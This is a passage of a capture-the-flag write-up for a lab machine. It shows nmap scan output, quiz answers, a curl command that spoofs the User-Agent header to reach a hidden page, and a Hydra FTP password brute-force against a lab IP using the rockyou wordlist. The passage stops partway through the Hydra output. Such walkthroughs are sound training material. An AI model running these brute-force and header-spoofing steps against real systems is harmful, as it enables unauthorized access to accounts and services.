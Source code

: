      |_http-server-header: Apache/2.4.29 (Ubuntu)
     |_http-title: Annoucement
     MAC Address: 02:C4:A2:7C:B0:5B (Unknown)
     Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
     Nmap done: 1 IP address (1 host up) scanned in 13.23 seconds
     ```

### 2.1 How many open ports?

ans: `3`

### 2.2 How you redirect yourself to a secret page?

ans: `user-agent`

### 2.3 What is the agent name?

- run `CURL` to find out
  `curl -H user-agent:C http://10.10.245.114/agent_C_attention.php`

---

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

## Task 03: Hash cracking and brute-force

> Done enumerate the machine? Time to brute your way out.

### 3.1: FTP password

- running `Hydra`

     ```bash
     hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.245.114 -t 4 ftp
     Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

     Hydra (http://www.thc.org/thc-hydra) starting at 2021-07-25 19:57:23
     [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
     [DATA] attacking ftp://10.10.245.114:21/
